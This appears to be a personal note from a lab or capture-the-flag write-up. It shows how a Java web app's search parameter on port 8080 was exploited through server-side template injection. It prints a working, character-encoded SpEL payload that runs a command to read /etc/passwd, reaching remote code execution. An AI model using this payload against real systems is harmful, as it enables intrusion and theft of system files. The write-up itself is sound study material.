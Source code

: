 # Exploitation SSTI port 8080
<hr>

![[search_req.png]]

After confirming the `name` parameter from the search bar is vulnerable, try to execute commands on the server.

Something that I missed for a while was:

![[missed.png]]

Which resulted very important for further exploitation.

The only payloads that work are:

```
#{exp}
*{exp}
```

Using the `*` symbol the output seems cleaner. Next I looked up for some Java payloads to [test](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#java---retrieve-etcpasswd).

With the following payload I was able to retrieve the `/etc/passwd` file.

```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

![[etc-passwd.png]]

As a conclusion an SSTI vulnerability lead to RCE in the server machine.

Further RCE exploitation [[Exploitation RCE port 8080]]